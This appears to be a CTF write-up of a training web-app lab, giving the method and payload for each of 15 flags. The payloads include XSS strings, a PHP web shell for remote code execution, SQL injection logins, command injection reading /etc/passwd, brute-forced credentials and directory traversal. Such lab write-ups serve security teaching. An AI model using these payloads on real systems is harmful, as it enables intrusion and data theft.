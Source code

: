 # Project-2-Ctfd

CTF Challenge Write-up Document

Flag 1:
Method: Cross-site scripting (XSS)
Payload: <script>alert("")</script>

![Flag 1](images/flag1.png)

Flag 2:
Method: XSS with malformed script tags
Payload: <SCRIPscriptT>alert(")</SCRIPscriptT>

![Flag 2](images/flag2.png)


Flag 3:
Method: Cross-site scripting (XSS)
Payload: <script>alert("")</script>

![Flag 3](images/flag3.png)


Flag 4:
Method: Intercepting HTTP requests and responses using Burp Suite
Action: Used Burp Suite on About Rekall page and then sent to response

![Flag 4](images/flag4.png)

Flag 5:
Method: File upload vulnerability leading to remote code execution
Payload: <?php $command = $_GET['cmd']; echo system($command); ?>

![Flag 5](images/flag5.png)

Flag 6:
Method: File upload vulnerability leading to remote code execution (Similar to Flag 5)
Payload: Similar PHP code used in Flag 5 to execute commands

![Flag 6](images/flag6.png)

Flag 7:
Method: SQL Injection
Payload: login ' OR '1'='1' -- password ' OR '1'='1' --

![Flag 7](images/flag7.png)

Flag 8:
Location: Login.php (second field)
Vulnerability: Sensitive data exposure
Method/Payload to Exploit: The username and password are in the HTML, or you can view them by highlighting the webpage.
Username: dougquaid Password: kuato

![Flag 8](images/flag8.png)

Flag 9:
Method: Information leakage through improperly secured robots.txt file
Action: Accessed /robots.txt to retrieve the flag

![Flag 9](images/flag9.png)

Flag 10:
Method: Command injection via DNS Lookup
Payload: www.example.com | cat venders.txt

![Flag 10](images/flag10.png)

Flag 11:
Method: Direct access to restricted files
Action: Accessed /networking.php directly to obtain the flag

![Flag 11](images/flag11.png)

Flag 12:
Method: Brute force attack
Credentials Discovered: melina:melina

![Flag 12](images/flag12.png)

Flag 13:
Method: Command Injection
Payload: ;system('cat /etc/passwd')

![Flag 13](images/flag13.png)

Flag 14:
Location: admin_legal_data.php
Vulnerability: Session management
Payload to Exploit: The link to this page is provided when Flag 12 is acquired. To view the flag, you will need to test out different session IDs in the URL with Burp. (Intruder would be the most efficient.) 87 is the secret session ID that provides the flag (http://192.168.13.35/admin_legal_data.php?admin=87).

![Flag 14](images/flag14.png)

Flag 15:
Location: Disclaimer.php
Vulnerability: Directory traversal
Payload to Exploit: The hint on this page indicates this is the "new" disclaimer. Using the vulnerability from Flag 10 or Flag 11, you can run ls to see the old_disclaimers directory. Using that finding, change the URL to: http://192.168.13.35/disclaimer.php?page=old_disclaimers/disclaimer_1.txt
Note that the resource changed from disclaimer_2.txt to disclaimer_1.txt, as this is the older version.

![Flag 15](images/flag15.png)

